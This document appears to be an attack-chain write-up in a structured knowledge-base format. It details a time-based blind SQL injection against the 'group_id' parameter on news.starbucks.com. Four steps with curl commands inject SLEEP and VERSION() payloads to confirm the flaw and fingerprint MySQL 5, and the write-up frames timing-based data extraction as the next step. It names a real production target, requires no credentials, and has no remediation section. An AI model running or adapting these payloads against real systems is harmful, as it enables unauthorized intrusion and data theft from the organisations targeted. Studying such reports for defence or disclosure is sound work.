

# Time-based Blind SQL Injection in Group ID Parameter on Starbucks News Site

Multi-stage attack chain demonstrating a time-based blind SQL injection vulnerability in the 'group_id' POST parameter on https://news.starbucks.com, exploited via unsanitized input to inject SQL payloads that manipulate response times using SLEEP functions. This allows fingerprinting the DBMS as MySQL 5 and potential extraction of database information through binary search timing attacks.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]
- [[tools/time]]

### Target Environment

- Web application on https://news.starbucks.com
- MySQL backend (inferred from exploitation)
- No specific ports required beyond standard HTTPS (443)

### Initial Access Requirements

- Public internet access to the target site
- No credentials needed
- Ability to send custom HTTP POST requests

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Parameter

procedure: [[procedures/Identify-Vulnerable-Parameter-for-SQL-Injection]]

**Objective**: Locate the injectable 'group_id' POST parameter in the site's request structure.

**Instructions**: Craft a basic POST request to https://news.starbucks.com with parameters ACT=55, jsontree={"x":1}, site_id=1, and inject a simple payload into group_id to test for SQL errors or anomalies.

**Expected Output**: Response indicating potential injection point without explicit errors, setting up for timing tests.

**Success Indicators**:
- Parameter accepts string payloads without rejection
- No immediate SQL error messages, but structure suggests backend query involvement

### Step 2: Verify Injection with True Condition

procedure: [[procedures/Verify-Time-based-Blind-SQL-Injection]]

**Objective**: Confirm time-based blind SQLi by injecting a true condition that triggers a SLEEP delay.

**Instructions**: Use [[commands/test-true-condition-sqli]] to send the payload and measure response time with [[tools/time]].

```bash
time curl --data "ACT=55&jsontree={\"x\":1}&site_id=1&group_id=1'-IF(1=1,SLEEP(1),0) AND group_id='1" https://news.starbucks.com
```

Then compare with a baseline normal request.

**Expected Output**: Response time around 4-5 seconds due to 1-second SLEEP.

**Success Indicators**:
- Noticeable delay in response (e.g., real 0m4.945s)
- Confirms injection point and timing mechanism

### Step 3: Verify Injection with False Condition

procedure: [[procedures/Verify-Time-based-Blind-SQL-Injection]]

**Objective**: Validate the injection by testing a false condition that avoids the delay.

**Instructions**: Execute [[commands/test-false-condition-sqli]] to observe normal response time.

```bash
time curl --data "ACT=55&jsontree={\"x\":1}&site_id=1&group_id=1'-IF(1=2,SLEEP(1),0) AND group_id='1" https://news.starbucks.com
```

**Expected Output**: Faster response without delay (e.g., real 0m0.860s).

**Success Indicators**:
- Response time significantly shorter than true condition
- Timing difference confirms blind SQLi control

### Step 4: Fingerprint DBMS Version

procedure: [[procedures/Fingerprint-DBMS-Version-via-Time-based-SQLi]]

**Objective**: Use conditional SLEEP to extract DBMS version information via binary search on response times.

**Instructions**: Run [[commands/fingerprint-mysql-version-5]] to check for version starting with '5'.

```bash
time curl --data "ACT=55&jsontree={\"x\":1}&site_id=1&group_id=1'-IF(MID(VERSION(),1,1)='5',SLEEP(1),0) AND group_id='1" https://news.starbucks.com
```

Follow with [[commands/fingerprint-mysql-version-4]] for contrast.

```bash
time curl --data "ACT=55&jsontree={\"x\":1}&site_id=1&group_id=1'-IF(MID(VERSION(),1,1)='4',SLEEP(1),0) AND group_id='1" https://news.starbucks.com
```

**Expected Output**: Delay for version '5' check (real 0m4.945s), no delay for '4' (real 0m1.005s).

**Success Indicators**:
- Delay confirms MySQL version 5
- Enables further binary search for data extraction

## Attack Chain Summary

### Key Achievements

1. Identified unsanitized 'group_id' parameter vulnerable to SQLi
2. Verified blind SQLi via timing differences with true/false conditions
3. Fingerprinted DBMS as MySQL 5 using VERSION() function
4. Demonstrated potential for data exfiltration without direct output

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---

*Last updated: 2023-10-01T00:00:00Z*
